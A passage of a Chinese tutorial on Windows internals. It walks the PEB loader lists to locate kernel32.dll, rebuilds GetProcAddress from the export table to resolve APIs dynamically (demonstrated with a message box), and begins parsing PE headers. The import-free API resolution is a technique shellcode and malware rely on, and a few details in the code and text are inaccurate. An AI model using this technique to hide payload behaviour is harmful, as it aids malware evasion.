   +0x003 IsLongPathAwareProcess : 0y0
   +0x004 Mutant           : 0xffffffff Void
   +0x008 ImageBaseAddress : 0x00f30000 Void
   +0x00c Ldr              : 0x774c0c40 _PEB_LDR_DATA    // LDR
```
从如上输出结果可以看出，`LDR` 在 `PEB` 结构体偏移的 `0x0C` 处，该地址保存的地址是 `0x774c0c40` 通过该地址来解析 `LDR` 结构体。`WinDBG` 输出如下内容：
```C
0:000> dt _peb_ldr_data 0x774c0c40
ntdll!_PEB_LDR_DATA
   +0x000 Length           : 0x30
   +0x004 Initialized      : 0x1 ''
   +0x008 SsHandle         : (null) 
   +0x00c InLoadOrderModuleList : _LIST_ENTRY [ 0x9e3208 - 0x9e5678 ]
   +0x014 InMemoryOrderModuleList : _LIST_ENTRY [ 0x9e3210 - 0x9e5680 ]
   +0x01c InInitializationOrderModuleList : _LIST_ENTRY [ 0x9e3110 - 0x9e35f8 ]
   +0x024 EntryInProgress  : (null) 
   +0x028 ShutdownInProgress : 0 ''
   +0x02c ShutdownThreadId : (null) 

0:000> dt _LIST_ENTRY
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr32 _LIST_ENTRY
   +0x004 Blink            : Ptr32 _LIST_ENTRY
```
现在来手动遍历第一条链表，输入命令`0x9e3208`：在链表偏移 `0x18` 的位置是模块的映射地址，即 `ImageBase`；在链表
偏移 `0x28` 的位置是模块的路径及名称的地址；在链表偏移 `0x30` 的位置是模块名称的地址。

```C
0:000> dd 0x9e3208
009e3208  009e3100 774c0c4c 009e3108 774c0c54
009e3218  00000000 00000000 00f30000 00f315bb
009e3228  00007000 00180016 009e1fd4 00120010
009e3238  009e1fda 000022cc 0000ffff 774c0b08

0:000> du 009e1fd4
009e1fd4  "C:\main.exe"
0:000> du 009e1fda
009e1fda  "main.exe"
```
读者可自行验证，如下所示的确是模块的名称。既然是链表，就来下一条链表的信息,`009e3100`保存着下一个链表结构。依次遍历就是了。

```C
0:000> dd 009e3100
009e3100  009e35e8 009e3208 009e35f0 009e3210
009e3110  009e39b8 774c0c5c 773a0000 00000000
009e3120  0019c000 003c003a 009e2fe0 00140012

0:000> du 009e2fe0 
009e2fe0  "C:\Windows\SYSTEM32\ntdll.dll"
```
上述地址`009e3100`介绍的结构，是微软保留结构，只能从网上找到一个结构定义，然后自行看着解析就好了。
```C
typedef struct _LDR_DATA_TABLE_ENTRY
{
  PVOID Reserved1[2];
  LIST_ENTRY InMemoryOrderLinks;
  PVOID Reserved2[2];
  PVOID DllBase;
  PVOID EntryPoint;
  PVOID Reserved3;
  UNICODE_STRING FullDllName;
  BYTE Reserved4[8];
  PVOID Reserved5[3];
  union {
  ULONG CheckSum;
  PVOID Reserved6;
  };
  ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY; 
```
根据如上流程，想要得到`kernel32.dll`模块的入口地址，我们可以进行这几步，首先得到`TEB`地址，并在该地址中寻找`PEB`线程环境块，并在该环境块内得到`LDR`结构，在该结构中获取第二条链表地址，输出该链表中的`0x10`以及`0x20`即可得到当前模块的基地址，以及完整的模块路径信息，该功能的实现分为32位于64位，如下代码则是实现代码。

```c
#include <iostream>
#include <Windows.h>

// 将不同的节压缩为单一的节
#pragma comment(linker, "/merge:.data=.text") 
#pragma comment(linker, "/merge:.rdata=.text")
#pragma comment(linker, "/section:.text,RWE")

// 得到32位模式下kernel32.dll地址
DWORD GetModuleKernel32()
{
  DWORD *PEB = NULL, *Ldr = NULL, *Flink = NULL, *p = NULL;
  DWORD *BaseAddress = NULL, *FullDllName = NULL;

  __asm
  {
    mov eax, fs:[0x30]      // FS保存着TEB
    mov PEB, eax            // +30定位到PEB
  }

  // 得到LDR
  Ldr = *((DWORD **)((unsigned char *)PEB + 0x0c));

  // 在LDR基础上找到第二条链表
  Flink = *((DWORD **)((unsigned char *)Ldr + 0x14));
  p = Flink;

  p = *((DWORD **)p);

  // 计数器
  int count = 0;

  while (Flink != p)
  {
    BaseAddress = *((DWORD **)((unsigned char *)p + 0x10));
    FullDllName = *((DWORD **)((unsigned char *)p + 0x20));

    if (BaseAddress == 0)
      break;

    // printf("镜像基址 = %08x \r\n 模块路径 = %S \r\n", BaseAddress, (unsigned char *)FullDllName);
    // 第二个模块是kernel32.dll
    if (count == 1)
    {
      // printf("address =%x \n", BaseAddress);
      return reinterpret_cast<DWORD>(BaseAddress);
    }

    p = *((DWORD **)p);
    count = count + 1;
  }

  // 未找到Kernel32模块
  return 0;
}

// 获取64位模式下的kernel32.dll基址
ULONGLONG GetModuleKernel64()
{
  ULONGLONG dwKernel32Addr = 0;

  // 获取TEB的地址
  _TEB* pTeb = NtCurrentTeb();
  // 获取PEB的地址
  PULONGLONG pPeb = (PULONGLONG)*(PULONGLONG)((ULONGLONG)pTeb + 0x60);
  // 获取PEB_LDR_DATA结构的地址
  PULONGLONG pLdr = (PULONGLONG)*(PULONGLONG)((ULONGLONG)pPeb + 0x18);
  // 模块初始化链表的头指针InInitializationOrderModuleList
  PULONGLONG pInLoadOrderModuleList = (PULONGLONG)((ULONGLONG)pLdr + 0x10);

  // 获取链表中第一个模块信息，exe模块
  PULONGLONG pModuleExe = (PULONGLONG)*pInLoadOrderModuleList;
  //printf("EXE Base = > %X \n", pModuleExe[6]);

  // 获取链表中第二个模块信息，ntdll模块
  PULONGLONG pModuleNtdll = (PULONGLONG)*pModuleExe;
  //printf("Ntdll Base = > %X \n", pModuleNtdll[6]);

  // 获取链表中第三个模块信息，Kernel32模块
  PULONGLONG pModuleKernel32 = (PULONGLONG)*pModuleNtdll;
  //printf("Kernel32 Base = > %X \n", pModuleKernel32[6]);

  // 获取kernel32基址
  dwKernel32Addr = pModuleKernel32[6];
  return dwKernel32Addr;
}

int main(int argc, char *argv[])
{
  // 输出32位kernel32
  DWORD kernel32BaseAddress = GetModuleKernel32();
  std::cout << "kernel32 = " << std::hex << kernel32BaseAddress << std::endl;

  // 输出64位kernel32
  ULONGLONG kernel64BaseAddress = GetModuleKernel64();
  std::cout << "kernel64 = " << std::hex << kernel32BaseAddress << std::endl;

  system("pause");
  return 0;
}
```

如上代码中分别实现了`32`位于`64`位两种获取内存模块基址`GetModuleKernel32`用于获取32位模式，`GetModuleKernel64`则用于获取64位内存基址，读者可自行调用两种模式，输出如下图所示；



我们通过调用`GetModuleKernel32()`函数读入`kernel32.dll`模块入口地址后，则下一步就可以通过循环，遍历该模块的导出表并寻找到`GetProcAddress`导出函数地址，找到该导出函数内存地址后，则可以通过`kernel32`模块基址加上`dwFunAddrOffset`相对偏移，获取到该函数的内存地址，此时通过函数指针就可以将该函数地址读入到内存指针内。

```c
// 封装基地址获取功能
ULONGLONG MyGetProcAddress()
{
  // 获取32位基址
  ULONGLONG dwBase = GetModuleKernel32();
  
  // 获取64位基址
  // ULONGLONG dwBase = GetModuleKernel64();
  
  // 获取DOS头
  PIMAGE_DOS_HEADER pDos = (PIMAGE_DOS_HEADER)dwBase;
  
  // 获取32位NT头
  PIMAGE_NT_HEADERS pNt = (PIMAGE_NT_HEADERS)(dwBase + pDos->e_lfanew);
  
  // 获取64位NT头
  // PIMAGE_NT_HEADERS64  pNt = (PIMAGE_NT_HEADERS64)(dwBase + pDos->e_lfanew);
  
  // 获取数据目录表
  PIMAGE_DATA_DIRECTORY pExportDir = pNt->OptionalHeader.DataDirectory;
  pExportDir = &(pExportDir[IMAGE_DIRECTORY_ENTRY_EXPORT]);
  DWORD dwOffset = pExportDir->VirtualAddress;
  
  // 获取导出表信息结构
  PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)(dwBase + dwOffset);
  DWORD dwFunCount = pExport->NumberOfFunctions;
  DWORD dwFunNameCount = pExport->NumberOfNames;
  DWORD dwModOffset = pExport->Name;

  // 获取导出地址表
  PDWORD pEAT = (PDWORD)(dwBase + pExport->AddressOfFunctions);
  
  // 获取导出名称表
  PDWORD pENT = (PDWORD)(dwBase + pExport->AddressOfNames);
  
  // 获取导出序号表
  PWORD pEIT = (PWORD)(dwBase + pExport->AddressOfNameOrdinals);

  for (DWORD dwOrdinal = 0; dwOrdinal < dwFunCount; dwOrdinal++)
  {
    if (!pEAT[dwOrdinal])
    {
      continue;
    }

    // 获取序号
    DWORD dwID = pExport->Base + dwOrdinal;
    
    // 获取导出函数地址
    ULONGLONG dwFunAddrOffset = pEAT[dwOrdinal];

    for (DWORD dwIndex = 0; dwIndex < dwFunNameCount; dwIndex++)
    {
      // 在序号表中查找函数的序号
      if (pEIT[dwIndex] == dwOrdinal)
      {
        // 根据序号索引到函数名称表中的名字
        ULONGLONG dwNameOffset = pENT[dwIndex];
        char* pFunName = (char*)((ULONGLONG)dwBase + dwNameOffset);
        if (!strcmp(pFunName, "GetProcAddress"))
        {
          // 根据函数名称返回函数地址
          return dwBase + dwFunAddrOffset;
        }
      }
    }
  }
  return 0;
}

// 定义名称指针
typedef ULONGLONG(WINAPI *fnGetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
typedef HMODULE(WINAPI *fnLoadLibraryA)(_In_ LPCSTR lpLibFileName);

int main(int argc, char *argv[])
{

  DWORD kernel32BaseAddress = GetModuleKernel32();
  if (kernel32BaseAddress == 0)
  {
    return 0;
  }

  // 获取kernel32基址/获取GetProcAddress的基址
  fnGetProcAddress pfnGetProcAddress = (fnGetProcAddress)MyGetProcAddress();
  std::cout << pfnGetProcAddress << std::endl;

  // 获取Kernel32核心API地址
  fnLoadLibraryA pfnLoadLibraryA = (fnLoadLibraryA)pfnGetProcAddress((HMODULE)kernel32BaseAddress, "LoadLibraryA");
  printf("自定义读入LoadLibrary = %x \n", pfnLoadLibraryA);

  system("pause");
  return 0;
}
```

输出效果如下图所示，我们即可读入`fnLoadLibraryA`函数的内存地址；



上述代码的使用也很简单，当我们能够得到`GetProcAddress`的内存地址后，就可以使用该内存地址动态定位到任意一个函数地址，我们通过得到`LoadLibrary`函数地址，与`GetModuleHandleA`函数地址，通过两个函数就可以定位到`Windows`系统内任意一个函数，我们以调用`MessageBox`弹窗为例，动态输出一个弹窗，该调用方式如下所示。

```c
// 定义名称指针
typedef ULONGLONG(WINAPI *fnGetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
typedef HMODULE(WINAPI *fnLoadLibraryA)(_In_ LPCSTR lpLibFileName);
typedef int(WINAPI *fnMessageBox)(HWND hWnd, LPSTR lpText, LPSTR lpCaption, UINT uType);
typedef HMODULE(WINAPI *fnGetModuleHandleA)(_In_opt_ LPCSTR lpModuleName);
typedef BOOL(WINAPI *fnVirtualProtect)(_In_ LPVOID lpAddress, _In_ SIZE_T dwSize, _In_ DWORD flNewProtect, _Out_ PDWORD lpflOldProtect);
typedef void(WINAPI *fnExitProcess)(_In_ UINT uExitCode);

int main(int argc, char * argv[])
{
  // 获取kernel32基址 / 获取GetProcAddress的基址
  fnGetProcAddress pfnGetProcAddress = (fnGetProcAddress)MyGetProcAddress();
  ULONGLONG dwBase = GetModuleKernel32();
  printf("fnGetProcAddress = %x \n", pfnGetProcAddress);
  printf("GetKernel32Addr = %x \n", dwBase);

  // 获取Kernel32核心API地址
  fnLoadLibraryA pfnLoadLibraryA = (fnLoadLibraryA)pfnGetProcAddress((HMODULE)dwBase, "LoadLibraryA");
  printf("pfnLoadLibraryA = %x \n", pfnLoadLibraryA);

  fnGetModuleHandleA pfnGetModuleHandleA = (fnGetModuleHandleA)pfnGetProcAddress((HMODULE)dwBase, "GetModuleHandleA");
  printf("pfnGetModuleHandleA = %x \n", pfnGetModuleHandleA);

  fnVirtualProtect pfnVirtualProtect = (fnVirtualProtect)pfnGetProcAddress((HMODULE)dwBase, "VirtualProtect");
  printf("pfnVirtualProtect = %x \n", pfnVirtualProtect);

  // 有了核心API之后,即可获取到User32.dll的基地址
  pfnLoadLibraryA("User32.dll");
  HMODULE hUser32 = (HMODULE)pfnGetModuleHandleA("User32.dll");
  fnMessageBox pfnMessageBoxA = (fnMessageBox)pfnGetProcAddress(hUser32, "MessageBoxA");
  printf("User32 = > %x \t MessageBox = > %x \n", hUser32, pfnMessageBoxA);

  HMODULE hKernel32 = (HMODULE)pfnGetModuleHandleA("kernel32.dll");
  fnExitProcess pfnExitProcess = (fnExitProcess)pfnGetProcAddress(hKernel32, "ExitProcess");
  printf("Kernel32 = > %x \t ExitProcess = > %x \n", hKernel32, pfnExitProcess);

  // 弹出信息框
  int nRet = pfnMessageBoxA(NULL, "hello lyshark", "MsgBox", MB_YESNO);
  if (nRet == IDYES)
  {
    printf("你点击了YES \n");
  }

  system("pause");
  pfnExitProcess(0);
  return 0;
}
```

运行上述代码，通过动态调用的方式获取到`MessageBox`函数内存地址，并将该内存放入到`pfnMessageBoxA`指针内，最后直接调用该指针即可输出如下图所示的效果图；



## 第二篇：PE文件结构操控技术

PE结构是`Windows`系统下最常用的可执行文件格式，理解PE文件格式不仅可以理解操作系统的加载流程，还可以更好的理解操作系统对进程和内存相关的管理知识，在任何一款操作系统中，可执行程序在被装入内存之前都是以文件的形式存放在磁盘中的，在早期DOS操作系统中，是以COM文件的格式存储的，该文件格式限制了只能使用代码段，堆栈寻址也被限制在了64KB的段中，由于PC芯片的快速发展这种文件格式极大的制约了软件的发展。

为了应对这种局面，微软的工程师们就发明了新的文件格式(EXE文件)，该文件格式在代码段前面增加了文件头结构，文件头中包括各种说明数据，如程序的入口地址,堆栈的位置,重定位表等，显然可执行文件的格式是操作系统工作方式的真实写照，不同的系统之间文件格式千差万别，从而导致不同系统中的可执行文件无法跨平台运行。

PE结构包含了各类结构体，DOS头，PE标识，文件头，可选头，目录结构，节表，导入表，导出表，重定位表，资源表等等，要想掌握PE结构首相要对这些表有一个整体上的认识，Windows NT 系统中可执行文件使用微软设计的新的文件格式，也就是至今还在使用的PE格式，PE文件的基本结构如下图所示：



在PE文件中，代码,已初始化的数据，资源和重定位信息等数据被按照属性分类放到不同的`Section(节区/或简称为节)`中，而每个节区的属性和位置等信息用一个`IMAGE_SECTION_HEADER`结构来描述，所有的`IMAGE_SECTION_HEADER`结构组成了一个`节表(Section Table)`，节表数据在PE文件中被放在所有节数据的前面。

在PE文件中将同样属性的数据分类放在一起是为了统一描述这些数据装入内存后的页面属性，由于数据是按照属性在节中放置的，不同用途但是属性相同的数据可能被放在同一个节中，PE文件头被放置在节和节表的前面，上面介绍的是真正的PE文件，为了兼容以前的DOS系统，所以保留了DOS的文件格式，接下来笔者将带大家从最基本的读入文件开始依次实现对PE文件的解析，并使用C语言实现一个`PeView`结构解析器。

### 2.1 PE结构映射进内存

在解析PE文件之前，我们首先要做的则是将PE文件从磁盘中读入到内存，有两种方式可以实现，一种是通过`ReadFile`函数将完整的数据读入内存，该方法会消耗更多的内存资源这里并不推荐使用，第二种方式则是采用映射的模式，所谓的映射则是将一个磁盘中的部分数据读入内存，当需要使用该片区域时由操作系统动态的装载一部分，该方式也是笔者推荐的一种实现模式；

一般来说映射文件的流程是，使用`CreateFile()`打开一个磁盘文件，接着使用`CreateFileMapping()`函数创建文件的内存映像，最后使用`MapViewOfFile()`读取映射中的内存并返回一个句柄，后面的程序就可以通过该句柄操作打开后的文件。

**CreateFile**

用来创建或打开文件的API函数，它可以接受一个文件名作为输入参数，并返回一个文件句柄。文件句柄是用来标识打开的文件的唯一标识符，后续对该文件的操作需要使用这个句柄。下面是`CreateFile`函数的原型:
```c
HANDLE CreateFile(
    LPCTSTR lpFileName,          // 文件名或路径
    DWORD dwDesiredAccess,       // 访问权限
    DWORD dwShareMode,           // 共享模式
    LPSECURITY_ATTRIBUTES lpSecurityAttributes, // 安全属性
    DWORD dwCreationDisposition, // 创建选项
    DWORD dwFlagsAndAttributes,  // 文件属性
    HANDLE hTemplateFile         // 模板文件句柄
);
```

其中，各个参数的含义如下：

 - lpFileName：指向null结尾字符串的指针，该字符串是文件名或文件的路径。
 - dwDesiredAccess：一个32位的`AccessMask`值，用来表示对文件的访问权限。
 - dwShareMode： 一个32位的`ShareMode`值，它表示其他进程可以如何访问文件。
 - lpSecurityAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，表示安全属性。
 - dwCreationDisposition：一个32位的值，它表示对文件的创建选项如何操作。
 - dwFlagsAndAttributes：一个32位的值，用来指定文件的属性和标志。
 - hTemplateFile：可选的模板文件句柄，用来将文件属性/属性设置为其它文件的属性/属性。

函数返回值为一个文件对象的句柄，如果函数执行失败，则返回INVALID_HANDLE_VALUE(即-1)。

**CreateFileMapping**

用来创建文件的内存映像的API函数。它可以将一个文件映射到内存中，这样我们就可以像访问内存一样访问文件。这个函数需要传入一个文件句柄以及一个映像的大小。它返回一个句柄，表示创建的内存映像。下面是`CreateFileMapping`函数的原型：
```c
HANDLE CreateFileMapping(
    HANDLE hFile,                     // 文件句柄
    LPSECURITY_ATTRIBUTES lpAttributes, // 安全属性
    DWORD flProtect,                    // 内存保护属性
    DWORD dwMaximumSizeHigh,           // 文件映像的高32位字节大小
    DWORD dwMaximumSizeLow,            // 文件映像的低32位字节大小
    LPCTSTR lpName                     // 映像名
);
```

其中，各个参数的含义如下：

 - hFile：要映射到内存中的文件的句柄
 - lpAttributes：指向`SECURITY_ATTRIBUTES`结构体的指针，它描述内存映射对象的安全性，如果为NULL，则内存映射对象不可继承。
 - flProtect：一组标志位，它们指定内存映射区域的内存保护属性；
 - dwMaximumSizeHigh：文件映像的高32位字节大小
 - dwMaximumSizeLow：文件映像的低32位字节大小
 - lpName：映像名，可以为NULL；而且，如果该参数不为空，映像对象就成为本地系统对象，可以通过名字查找映像。

函数返回值为一个文件映射对象的句柄，如果函数执行失败，返回值为NULL。

**MapViewOfFile**

用来读取映射中的内存的API函数。它需要传入一个映像的句柄以及一个偏移量，用来指定从哪个位置开始读取内存。该函数返回一个指向映射内存的指针，我们可以使用它来读取或修改映射内存中的数据。下面是`MapViewOfFile`函数的原型：
```c
LPVOID MapViewOfFile(
    HANDLE hFileMappingObject,  // 文件映射对象的句柄
    DWORD dwDesiredAccess,      // 访问权限
    DWORD dwFileOffsetHigh,     // 文件偏移的高32位字节个数
    DWORD dwFileOffsetLow,      // 文件偏移的低32位字节个数
    SIZE_T dwNumberOfBytesToMap // 要映射到内存中的字节数
);
```

其中，各个参数的含义如下：

 - hFileMappingObject：文件映射对象的句柄，可以使用`CreateFileMapping`函数创建，表示要映射到内存中的文件或共享内存的句柄。
 - dwDesiredAccess：一个32位的`AccessMask`值，用来表示对内存的访问权限。可以设置为`FILE_MAP_READ、FILE_MAP_WRITE、FILE_MAP_ALL_ACCESS`等。
 - dwFileOffsetHigh：文件偏移的高32位字节个数。
 - dwFileOffsetLow：文件偏移的低32位字节个数。
 - dwNumberOfBytesToMap：要映射到内存中的字节数。

函数返回值为指向映射内存的指针，如果函数执行失败，则返回NULL。在使用完内存映像后，读者记得使用`UnmapViewOfFile()`函数来释放映像内存，使用`CloseHandle()`函数来关闭文件句柄和映像句柄，以便操作系统可以回收资源。

有了上述几个关键API函数那么实现内存映射功能将会变得很容易实现，直接来看一下如下代码，当程序运行后会自动将`c://pe/x86.exe`目录下的文件读入内存，并返回一个`lpMapAddress`文件句柄；
```c
#include <iostream>
#include <Windows.h>
#include <ImageHlp.h>

#pragma comment(lib,"Imagehlp.lib")

// --------------------------------------------------
// 定义全局变量,来存储 DOS头部/NT头部/Section头部
// --------------------------------------------------
PIMAGE_DOS_HEADER DosHeader = nullptr;
PIMAGE_NT_HEADERS NtHeader = nullptr;
PIMAGE_FILE_HEADER FileHead = nullptr;
PIMAGE_SECTION_HEADER pSection = nullptr;

// --------------------------------------------------
// 读取并设置文件基址以及文件大小
// --------------------------------------------------
CHAR GlobalFilePath[2048] = { 0 }; // 保存文件路径
DWORD GlobalFileSize = 0;          // 定义文件大小
DWORD GlobalFileBase = 0;          // 保存文件的基地址
DWORD IsOpen = 0;                  // 设置文件是否已经打开

// --------------------------------------------------
// 打开文件操作
// --------------------------------------------------
HANDLE OpenPeFile(LPCSTR FileName)
{
    HANDLE hFile, hMapFile, lpMapAddress = NULL;

    hFile = CreateFileA(FileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("[-] 打开文件失败 \n");
        exit(0);
    }
    GlobalFileSize = GetFileSize(hFile, NULL);
    if (GlobalFileSize != 0)
    {
        printf("[+] 已读入文件 \n");
    }

    hMapFile = CreateFileMapping(hFile, NULL, PAGE_READONLY, 0, GlobalFileSize, NULL);
    if (hMapFile == NULL)
    {
        printf("[-] 创建映射对象失败\n");
        exit(0);
    }

    lpMapAddress = MapViewOfFile(hMapFile, FILE_MAP_READ, 0, 0, GlobalFileSize);
    if (lpMapAddress != NULL)
    {
        // 设置读入文件基地址
        GlobalFileBase = (DWORD)lpMapAddress;

        // 获取DOS头并判断是不是一个有效的DOS文件
        DosHeader = (PIMAGE_DOS_HEADER)GlobalFileBase;
        if (DosHeader->e_magic != IMAGE_DOS_SIGNATURE)
        {
            printf("[-] 文件不属于DOS结构 \n");
            exit(0);
        }

        // 获取 NT 头并判断是不是一个有效的PE文件
        NtHeader = (PIMAGE_NT_HEADERS)(GlobalFileBase + DosHeader->e_lfanew);
        if (NtHeader->Signature != IMAGE_NT_SIGNATURE)
        {
            printf("[-] 文件不属于PE结构 \n");
            exit(0);
        }

        // 判断是不是32位程序
        if (NtHeader->OptionalHeader.Magic != 0x010B)
        {
            printf("[-] 无法调试非32位PE文件\n");
            exit(0);
        }

        // 获取到文件头指针
        FileHead = &NtHeader->FileHeader;

        // 获取到节表头
        pSection = IMAGE_FIRST_SECTION(NtHeader);
    }

    return lpMapAddress;
}

int main(int argc, char * argv[])
{
    HANDLE BaseAddr = OpenPeFile("c://pe/x86.exe");
    printf("[+] 入口地址 = %x \n", BaseAddr);

    system("pause");
    return 0;
}
```

### 2.2 DOS文件头详细解析

DOS头是PE文件开头的一个固定长度的结构体，这个结构体的大小为64字节（0x40）。DOS头包含了很多有用的信息，该信息可以让Windows操作系统使用正确的方式加载可执行文件。一个DOS头通常会包含以下一些主要信息：



 - Magic Number: 接下来`64字节`的文件内容的开始是以`MZ(Mark Zbikowski)`2个字符`（即0x4D, 0x5A）`开头，被称为`DOS`签名。
 - PE头偏移：DOS头中的`e_lfanew`（这是一个类型为LONG的成员）指示了PE头的偏移量，即PE头的起始位置距离DOS头的偏移量，Windows操作系统根据DOS头的这个属性来定位PE头的位置。
 - DOS头结束标识：保留用于以后增加的内容, 用于确认DOS头的结束，通常被赋值给字节0x0B。

如上图所示，图中的`4D5A`则表示这是一个PE文件，其下`08010000`则代表DOS头的最后一个数据集`e_lfanew`字段，该字段指向了PE头的开始`50450000`用于表示NT头的其实位置，而途中的英文单词则是一个历史遗留问题，在某些时候可通过删除此标识已让PE文件缩小空间占用，总的来说DOS头是PE文件中的一个重要的标志，它使得Windows操作系统能够在正确的位置开始加载可执行文件。由于DOS头中包含了PE头的偏移位置，Windows操作系统可以很容易地找到PE头，并通过PE头来加载程序并执行。

DOS头结构时PE文件中的重要组成部分，PE文件中的DOS部分由MZ格式的文件头和可执行代码部分组成，可执行代码被称为DOS块(DOS stub)，MZ格式的文件头由`IMAGE_DOS_HEADER`结构定义，在C语言头文件`winnt.h`中有对这个DOS结构详细定义,如下所示：
```C
typedef struct _IMAGE_DOS_HEADER { 
    WORD   e_magic;                     // DOS的头部
    WORD   e_cblp;                      // Bytes on last page of file
    WORD   e_cp;                        // Pages in file
    WORD   e_crlc;                      // Relocations
    WORD   e_cparhdr;                   // Size of header in paragraphs
    WORD   e_minalloc;                  // Minimum extra paragraphs needed
    WORD   e_maxalloc;                  // Maximum extra paragraphs needed
    WORD   e_ss;                        // Initial (relative) SS value
    WORD   e_sp;                        // Initial SP value
    WORD   e_csum;                      // Checksum
    WORD   e_ip;                        // Initial IP value
    WORD   e_cs;                        // Initial (relative) CS value
    WORD   e_lfarlc;                    // File address of relocation table
    WORD   e_ovno;                      // Overlay number
    WORD   e_res[4];                    // Reserved words
    WORD   e_oemid;                     // OEM identifier (for e_oeminfo)
    WORD   e_oeminfo;                   // OEM information; e_oemid specific
    WORD   e_res2[10];                  // Reserved words
    LONG   e_lfanew;                    // 指向了PE文件的开头(重要)
  } IMAGE_DOS_HEADER, *PIMAGE_DOS_HEADER;
```
在DOS文件头中，第一个字段`e_magic`被定义为`MZ`，标志着DOS文件的开头部分，最后一个字段`e_lfanew`则指明了PE文件的开头位置，现在来说除了第一个字段和最后一个字段有些用处，其他字段几乎已经废弃，当读者通过调用`OpenPeFile`打开一个PE文件时，则下一步我们需要实现对PE文件有效性及位数的判断，并以此作为参考在后续的解析中使用不同的变量长度。

首先将镜像转换为`PIMAGE_DOS_HEADER`格式，并通过`pDosHead->e_magic`属性找到`PIMAGE_NT_HEADERS`结构，然后判断其是否符合PE文件规范，这里需要注意32位于64位PE结构所使用的的结构定义略有不同,代码中已经对其进行了区分。
```c
BOOL IsPeFile(HANDLE ImageBase, BOOL Is64 = FALSE)
{
    PIMAGE_DOS_HEADER pDosHead = NULL;
    if (ImageBase == NULL)
        return FALSE;

    // 将映射文件转为DOS结构,并判断开头是否为MZ
    pDosHead = (PIMAGE_DOS_HEADER)ImageBase;
    if (IMAGE_DOS_SIGNATURE != pDosHead->e_magic)
        return FALSE;

    if (Is64 == TRUE)
    {
        // 根据 IMAGE_DOS_HEADER 的 e_lfanew 的值得到 64位 NT 头的位置
        PIMAGE_NT_HEADERS64 pNtHead64 = NULL;
        pNtHead64 = (PIMAGE_NT_HEADERS64)((DWORD64)pDosHead + pDosHead->e_lfanew);
        if (pNtHead64->Signature != IMAGE_NT_SIGNATURE)
            return FALSE;
    }
    else if (Is64 == FALSE)
    {
        // 根据 IMAGE_DOS_HEADER 的 e_lfanew 的值得到 32位 NT 头的位置
        PIMAGE_NT_HEADERS pNtHead32 = NULL;
        pNtHead32 = (PIMAGE_NT_HEADERS)((DWORD)pDosHead + pDosHead->e_lfanew);
        if (pNtHead32->Signature != IMAGE_NT_SIGNATURE)
            return FALSE;
    }
    return TRUE;
}

int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        printf("程序是标准的PE文件 \n");
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

运行此段代码，则读者可以看到如下图所示的输出结果，程序会首先判断读入文件的`pDosHead->e_magic`是否为`IMAGE_DOS_SIGNATURE`用以验证是否为DOS头，接着通过`IMAGE_DOS_HEADER`的`e_lfanew`值得到`NT头`部位置，并以此进一步判断是否为PE文件；



接下来则是读入PE文件中DOS头的重点部分，读者通过`DosHeader`指针，即可依次遍历出`IMAGE_DOS_HEADER`结构中的所有参数信息，这段代码可以总结为如下案例；
```c
int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        printf("\t\t\t 十六进制 \t 十进制 \n");
        printf("DOS标志:                  %08X \t %08d \n", DosHeader->e_magic, DosHeader->e_magic);
        printf("文件最后一页的字节数:     %08X \t %08d \n", DosHeader->e_cblp, DosHeader->e_cblp);
        printf("文件中的页面:             %08X \t %08d \n", DosHeader->e_cp, DosHeader->e_cp);
        printf("重定位:                   %08X \t %08d \n", DosHeader->e_crlc, DosHeader->e_crlc);
        printf("段落中标题的大小:         %08X \t %08d \n", DosHeader->e_cparhdr, DosHeader->e_cparhdr);
        printf("至少需要额外段落:         %08X \t %08d \n", DosHeader->e_minalloc, DosHeader->e_minalloc);
        printf("所需的最大额外段落数:     %08X \t %08d \n", DosHeader->e_maxalloc, DosHeader->e_maxalloc);
        printf("初始（相对）SS值:         %08X \t %08d \n", DosHeader->e_ss, DosHeader->e_ss);
        printf("初始SP值:                 %08X \t %08d \n", DosHeader->e_sp, DosHeader->e_sp);
        printf("校验和:                   %08X \t %08d \n", DosHeader->e_csum, DosHeader->e_csum);
        printf("初始IP值:                 %08X \t %08d \n", DosHeader->e_ip, DosHeader->e_ip);
        printf("初始（相对）CS值:         %08X \t %08d \n", DosHeader->e_cs, DosHeader->e_cs);
        printf("重新定位表的文件地址:     %08X \t %08d \n", DosHeader->e_lfarlc, DosHeader->e_lfarlc);
        printf("叠加编号:                 %08X \t %08d \n", DosHeader->e_ovno, DosHeader->e_ovno);
        printf("保留字:                   %08X \t %08d \n", DosHeader->e_res, DosHeader->e_res);
        printf("OEM标识符                 %08X \t %08d \n", DosHeader->e_oemid, DosHeader->e_oemid);
        printf("OEM信息                   %08X \t %08d \n", DosHeader->e_res2, DosHeader->e_res2);
        printf("PE指针:                   %08X \t %08d \n", DosHeader->e_lfanew, DosHeader->e_lfanew);
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

编译并运行上述代码片段，则读者可看到如下图所示的输出效果，此时DOS头部数据将被全部完整的输出；



### 2.3 PE文件头详细解析

从DOS文件头`IMAGE_DOS_HEADER`的`e_lfanew`字段向下偏移`003CH`的位置，就是真正的PE文件头的位置，该文件头是由`IMAGE_NT_HEADERS`结构定义的，IMAGE_NT_HEADERS是PE文件格式的一部分，它包含了PE头和可选头的信息，用于描述PE文件的结构和属性。
```c
typedef struct _IMAGE_NT_HEADERS
{
    DWORD Signature;                            // PE文件标识字符
    IMAGE_FILE_HEADER FileHeader;               // 文件头
    IMAGE_OPTIONAL_HEADER32 OptionalHeader;     // 可选头
} IMAGE_NT_HEADERS32, *PIMAGE_NT_HEADERS32;
```

